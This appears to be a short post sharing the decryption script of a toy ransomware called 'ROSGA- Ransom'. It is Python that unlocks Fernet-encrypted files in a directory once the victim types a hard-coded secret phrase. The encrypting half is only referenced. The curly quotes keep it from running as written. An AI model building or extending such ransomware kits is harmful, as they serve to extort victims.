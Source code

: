 # ROSGA- Ransom (Decryption Code)
#!/usr/bin/env python3
import os
from cryptography.fernet import Fernet
files = []
for file in os.listdir():
    if file == “encrypt.py” or file ==“secret_key.key” or file == “decrypt.py”:
        continue
    if os.path.isfile(file):
        files.append(file)
with open(“secret_key.key”, “rb”) as key:
    secret = key.read()
secretphrase = “free”
user_phrase = input(‘Enter the secret phrase to decrypt your files\n’)
if user_phrase == secretphrase:
    for file in files:
        with open(file, “rb”) as thefile:
            contents = thefile.read()
        decrypted_contents = Fernet(secret).decrypt(contents)
        with open(file, “wb”) as thefile:
            thefile.write(decrypted_contents)
        print(“Correct! Your files are now decrypted!“)
else:
    print(“Sorry, wrong secret phrase!“)
white_check_mark
alpaca
rainbow_dog












